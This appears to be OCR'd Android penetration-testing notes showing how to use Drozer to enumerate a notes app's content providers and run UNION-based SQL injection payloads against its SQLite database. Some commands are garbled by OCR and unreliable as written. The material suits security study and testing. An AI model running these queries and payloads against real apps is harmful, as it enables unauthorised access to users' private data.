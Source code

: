 # **Improper Error Handling**

Error handling is not properly done, and the API is throwing database/server errors specific to the crafted request, it is possible to craft attacks using those errors.

### **Content Provider Leakage**

According to Google Android Security application can't share data with another application until it's allow to share. If application assign content:// to any application that means it's provide content to particular application.

#### **Content provider leakage**

By using Drozer to perform various attacks on content providers. We can find out the package name of our target application using the command shown as follows:

1. \#run app.package.list -f {appname}
2. \#run app.package.attacksurface com.sonyericsson.notes
3. \#run scanner.provider.finduris -a \[package name]

\#run scanner.provider.finduris -a com.sonyericsson.notes

1. \#run app.provider.query \[content provider URI]
2. \#run app.provider.query content://com.sonyericsson.notes.provider
3. \#run app.provider.query \[URI] --vertical (For Vertical view)

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --vertical

#### **Attacking SQL Injection using Drozer**

1. \#run scanner.provider.injection -a \[package name]
2. \#run scanner.provider.injection -a com.sonyericsson.notes
3. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "{sqlpayload}"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --sele,ction "\_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12, 13,14 from sqlite\_master where (1=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1=1)union select 1,2,3,4,sqlite\_ version(),6,7,8,9,10,1112,13,14 from sqlite\_master where (1=1"
